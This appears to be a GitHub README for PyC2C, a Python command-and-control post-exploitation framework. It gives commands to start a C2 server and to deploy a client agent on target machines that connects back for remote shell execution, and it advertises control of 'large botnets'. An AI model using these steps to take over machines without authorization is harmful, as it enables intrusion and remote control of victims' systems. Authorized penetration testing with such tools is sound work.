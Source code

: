 # PyC2C: Python Post-Exploitation Framework with C2C Architecture

PyC2C is a Python-based post-exploitation framework designed with a Command and Control (C2C) architecture. It enables remote execution of shell code on multiple clients, also known as bots, providing powerful capabilities for penetration testers and security professionals.

## Features

- **C2C Architecture**: Allows centralized control over multiple compromised hosts.
- **Remote Shell Execution**: Execute shell commands on remote client machines.
- **Flexible Payload Generation**: Generate custom payloads tailored to specific targets.
- **Cross-Platform Compatibility**: Compatible with various operating systems supporting Python.
- **Scalability**: Easily scale up to control large botnets efficiently.

## Installation

1. Clone the PyC2C repository:

    ```
    git clone https://github.com/nafdev01/post-exploitation.git
    ```

2. Navigate to the PyC2C directory:

    ```
    cd post-exploitation
    ```

3. Install dependencies:

    ```
    pip install -r requirements.txt
    ```

## Usage

1. Start the C2C server:

    ```
    python botServer.py --port <server_port>
    ```

2. Configure the server settings, such as listening IP and port.

3. Deploy the client agent on target machines:

    ```
    python botClient.py --server <server_ip> --port <server_port>
    ```

4. Once the clients connect to the server, you can execute commands remotely.

## Example

1. Execute a shell command on selected connected client:

    ```bash
    whoami
    ```
2. Change the currently active bot client:
    
    ```
    select_bot
    ```
3. Clear the terminal:

    ```bash
    clear
    ```
4. Exit the program:

    ```bash
    exit
    ```

## Disclaimer

This tool is intended for educational and penetration testing purposes only. Unauthorized use of this tool may violate local, state, or federal law.

## Contribution

Contributions are welcome! Feel free to submit issues, feature requests, or pull requests to improve PyC2C.
